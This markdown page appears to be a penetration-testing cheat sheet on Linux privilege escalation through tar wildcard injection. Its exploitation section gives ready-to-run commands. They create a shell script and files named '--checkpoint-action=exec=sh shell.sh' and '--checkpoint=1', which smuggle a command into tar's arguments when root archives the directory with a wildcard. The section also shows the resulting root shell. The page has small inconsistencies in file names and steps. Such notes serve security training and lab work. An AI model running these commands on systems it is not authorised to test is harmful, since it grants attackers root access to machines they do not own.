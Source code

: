 ```yaml
---
title: Privilege Escalation with Wildcard Injection
description: Tar command with wildcard injection may lead to privilege escalation (PrivEsc).
tags:
    - Privilege Escalation
refs:
date: 2023-02-05
draft: false
---
```


## Investigation

For example, below command can be executed as root.

```sh
sudo -l

(root) NOPASSWD: /opt/backup/baskup.sh
```

### Check If the File Contains Tar Command with Wildcards

We need to check the content in the file.  

```sh
cat /opt/backup/backup.sh

# -cf: create an archived file
tar -cf backup.tar *
```

The above **tar** command means that it creates an arvhived file from any input file because it passes **wildcard (*)**.

<br />

## Exploitation

Now create a payload for privilege escalation.

```sh
cd /opt/backup
echo -e '#!/bin/bash\n/bin/bash' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

We've created three files.

```sh
ls /opt/backup

shell.sh  '--checkpoint-action=exec=sh shell.sh'  '--checkpoint=1'
```

Now execute **"tar"** command as root with wildcard.

```sh
sudo tar -cf example.tar *
```
Wait until **"tar"** command will be executed.  
After a while, we should see the current user switch to root.

```sh
whoami
root
```